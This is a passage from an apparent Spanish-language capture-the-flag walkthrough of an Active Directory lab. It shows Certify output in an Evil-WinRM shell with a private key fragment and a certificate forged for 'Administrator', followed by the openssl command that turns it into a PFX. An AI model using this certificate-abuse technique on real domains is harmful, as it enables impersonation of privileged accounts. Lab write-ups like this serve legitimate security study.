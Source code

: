 ```
HNzaZVaueOrv9QJ+TvEKAfkUbbpoV+v2OwVckjqGCwf5SbkhHfx1j4tYNRauH7Hf
2r23b/ZRy23efeU/ZYZs2YY71K6fURET7hrgFG020HRn+NxGJHEA5g==
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIGEjCCBPqgAwIBAgITHgAAAA/pJjUBjj+lpAAAAAAADzANBgkqhkiG9w0BAQsF
ADBEMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGc2VxdWVs
MRUwEwYDVQQDEwxzZXF1ZWwtREMtQ0EwHhcNMjMwNDA0MDk0MzExWhcNMjUwNDA0
MDk1MzExWjBTMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYG
c2VxdWVsMQ4wDAYDVQQDEwVVc2VyczEUMBIGA1UEAxMLUnlhbi5Db29wZXIwggEi
MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQC5DQnC2NeqLwrE3gGk25vn1mb9
VbA5uZzsWXzWJbOklHzeEl+g8nDk145GH3VAn6aW7WPFSDQnb3U8BgWC9OcG78Wr
GQHduHMRiVlMdKnl2zlapHeNKUU6FUQTRTIBybEGHHNlYYi96b8jdqfeDbefTYJB
6cQ5PGU2WdhfRtlxjBuz9qgNRqT2hnFMM2TiZuncfuNx2OfDb02eMIhu6r/a2hxs
v3ynhaf71geSY4yZSTfxaqDZhCNsLrQoGP1bD4PVrzI0fItc/d7uWgLrOLtdQaNl
42FZvnH3Idd4WIa+we+X0iT/qaoVrXKhyUQ9Lr3p7vieo5MTJVcxBGSkpiIdAgMB
AAGjggLsMIIC6DA9BgkrBgEEAYI3FQcEMDAuBiYrBgEEAYI3FQiHq/N2hdymVof9
lTWDv8NZg4nKNYF338oIhp7sKQIBZAIBBTApBgNVHSUEIjAgBggrBgEFBQcDAgYI
KwYBBQUHAwQGCisGAQQBgjcKAwQwDgYDVR0PAQH/BAQDAgWgMDUGCSsGAQQBgjcV
CgQoMCYwCgYIKwYBBQUHAwIwCgYIKwYBBQUHAwQwDAYKKwYBBAGCNwoDBDBEBgkq
hkiG9w0BCQ8ENzA1MA4GCCqGSIb3DQMCAgIAgDAOBggqhkiG9w0DBAICAIAwBwYF
Kw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFBLtgmmZo1k7Vpapf/zHk2aOicxU
MCgGA1UdEQQhMB+gHQYKKwYBBAGCNxQCA6APDA1BZG1pbmlzdHJhdG9yMB8GA1Ud
IwQYMBaAFGKfMqOg8Dgg1GDAzW3F+lEwXsMVMIHEBgNVHR8EgbwwgbkwgbaggbOg
gbCGga1sZGFwOi8vL0NOPXNlcXVlbC1EQy1DQSxDTj1kYyxDTj1DRFAsQ049UHVi
bGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlv
bixEQz1zZXF1ZWwsREM9aHRiP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFz
ZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCBvQYIKwYBBQUHAQEE
gbAwga0wgaoGCCsGAQUFBzAChoGdbGRhcDovLy9DTj1zZXF1ZWwtREMtQ0EsQ049
QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNv
bmZpZ3VyYXRpb24sREM9c2VxdWVsLERDPWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/
b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTANBgkqhkiG9w0BAQsF
AAOCAQEAO1EjXikuDc35DAjKsZPszKi6Aq1dS85i+cbbrNwOK99g8fiYnDnIdOaH
dpKDSeVGF6K9rKs6/b0J8qHKBlj8NEBpji/wacbxz4+Nlg5lfPS02S1t/IqmaIo3
HiXPxjNa0epM3EQ0/g8eBrYdmfXGjNelv5o8vaaiOOrdymiHssm4h5gvQADkbOsE
9YQGfV0Hknk6S/L1bJq+1PDGoMIShwLwt202CwgkCJ/0+PXbGzzcvzfnH8/3cBMt
GfjJ2Oqm6/8/NoYJkI5gpqUQsu9fFji07S5NPeXPpcHp53j5A6mM07FYCNFOXIkH
GcaAgmGkMVGWaw90STHR07EW6q5vfg==
-----END CERTIFICATE-----


[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx



Certify completed in 00:00:12.8384593
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> 
```
En nuestro Linux guardamos la información en un archivo llamado `cert.perm` y hacemos lo siguiente.
```bash
❯ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

Enter Export Password:
Verifying - Enter Export Password:
```
